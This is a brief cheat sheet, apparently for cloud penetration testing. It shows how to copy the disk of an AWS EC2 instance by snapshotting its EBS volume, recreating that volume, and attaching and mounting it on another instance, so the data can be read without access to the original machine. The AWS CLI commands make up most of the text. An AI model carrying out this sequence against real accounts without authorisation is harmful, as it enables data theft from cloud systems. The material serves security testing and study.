 # AWS EBS Exploitation and Data Exfiltration

### Create a snapshot of an EC2 instance, create a volume from snapshot and attach to other EC2 instance.

### User needs to have IAM permissions on EC2

### Maybe we don't have the right to access the instance but have rights to create a snapshot and attach it to another machine.

## Steps:

#### 1) Creating a snapshot of a specified volume

    aws ec2 create-snapshot --volume VOLUME_ID --description "Example" --profile PROFILE_NAME

#### 2) Listing snapshots

    aws ec2 describe-snapshots

#### 3) Creating a volume from a snapshot

    aws ec2 create-volume --snapshot-id ID --availability-zone ZONE --profile PROFILE_NAME

### The volume needs to be in the same availability zone as the instance we have access

#### 4) Attaching the volume to an instance

    aws ec2 attach-volume --volume-id VOLUME_ID --instance-id INSTANCE_ID --device /dev/sdfd

#### 5) Mounting the volume

    sudo mount /dev/sdfd /directory

### After mounting, we will have access to the disk

